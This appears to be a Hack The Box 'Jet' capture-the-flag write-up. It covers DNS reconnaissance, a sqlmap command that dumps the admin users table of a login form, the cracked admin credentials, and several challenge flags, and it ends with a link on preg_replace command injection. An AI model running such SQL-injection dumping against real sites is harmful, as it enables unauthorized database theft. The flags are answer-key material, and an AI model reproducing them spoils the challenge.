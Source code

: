 # Jet HacktheBox Writeup

## 1. Connect

## 2. Digging in...

```java
┌─[R4hn1]─[10.13.14.8]─[root@V0ld3rm0rt]─[~/Walkthrough/HTB/Fortresses/Jet]
└────╼ # dig -x 10.13.37.10 @10.13.37.10

; <<>> DiG 9.16.15-Debian <<>> -x 10.13.37.10 @10.13.37.10
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 22264
;; flags: qr aa rd; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;10.37.13.10.in-addr.arpa.      IN      PTR

;; AUTHORITY SECTION:
37.13.10.in-addr.arpa.  604800  IN      SOA     www.securewebinc.jet. securewebinc.jet. 3 604800 86400 2419200 604800

;; Query time: 259 msec
;; SERVER: 10.13.37.10#53(10.13.37.10)
;; WHEN: Fri Jul 02 20:11:40 -06 2021
;; MSG SIZE  rcvd: 109
```

![[Pasted image 20210703074256.png]]

```bash
Flag2 : JET{w3lc0me_4nd_h@v3_fun!}
```

## 3. Going Deeper

![[Pasted image 20210703074715.png]]

![[Pasted image 20210703074742.png]]

![[Pasted image 20210703074758.png]]

![[Pasted image 20210703074914.png]]

```bash
Flag3 : JET{s3cur3_js_w4s_not_s0_s3cur3_4ft3r4ll}
```

## 4. Bypassing Authentication

![[Pasted image 20210703083941.png]]

```java
┌─[R4hn1]─[10.13.14.8]─[root@V0ld3rm0rt]─[~/Walkthrough/HTB/Fortresses/Jet]
└────╼ # sqlmap -u http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/login.php --forms -D jetadmin -T users -dump

Database: jetadmin
Table: users
[1 entry]
+----+------------------------------------------------------------------+----------+
| id | password                                                         | username |
+----+------------------------------------------------------------------+----------+
| 1  | 97114847aa12500d04c0ef3aa6ca1dfd8fca7f156eeb864ab9b0445b235d5084 | admin    |
+----+------------------------------------------------------------------+----------+

Credentials :
admin:Hackthesystem200
```

![[Pasted image 20210703092003.png]]

```bash
Flag4 : JET{sQl_1nj3ct1ons_4r3_fun!}
```

## 5. Command

https://isharaabeythissa.medium.com/command-injection-preg-replace-php-function-exploit-fdf987f767df